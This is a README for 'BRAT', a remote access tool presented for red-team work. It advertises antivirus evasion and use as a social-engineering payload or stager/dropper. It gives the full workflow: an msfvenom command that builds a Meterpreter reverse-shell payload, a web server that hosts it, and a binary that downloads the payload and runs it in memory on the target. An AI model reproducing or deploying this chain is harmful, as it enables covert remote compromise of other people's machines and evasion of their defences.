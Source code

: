 BRAT
=====

A remote access tool for penetration/red team tests. Hosts no malicious code so is not flagged by AV. Useful for physical compromise of a host, as an SE payload, or as an initial stager/dropper.

### Installing

Pre-compiled windows binaries are available in /bin. To build from source you will need Curl and its required libraries. The provided binaries are compiled against the full Curl library available for Windows here https://curl.haxx.se/windows/. Due to this, they are larger than necessary.

Compile scripts are provided to use a starting point.

### Usage

The tool, once executed, makes an HTTPS GET request to a provided web server. The web server hosts the payload you wish to run. The binary loads this payload into memory and then executes it (NX is disabled on the binary). 

Any web server running HTTPS will suffice. A simple HTTPs web server using python is provided in /web-server. You will need to generate a certificate: 

```openssl req -new -x509 -keyout yourpemfile.pem -out yourpemfile.pem -days 365 -nodes ```

In /web-server/html generate your desired payload:
```msfvenom -p windows/meterpreter/reverse_tcp lhost=10.10.10.1 lport=4444 -f raw > payload.txt```

Start the web server:

```python3  web-server/web.py```

Configure necessary handler/listener for the payload.

Then execute the binary on the target machine. The binary takes two command line options. The first being the webserver/payload and the second 0 or 1. 0 to disable TLS certificate verification and 1 (or any non-zero number) to enable: 

```./a.exe https://your-web-server/payload.txt 0```

### TODO

Build binaries against custom Curl

There is a version which does not use Curl so it is much smaller, only utilizes OpenSSL. Will upload that too.

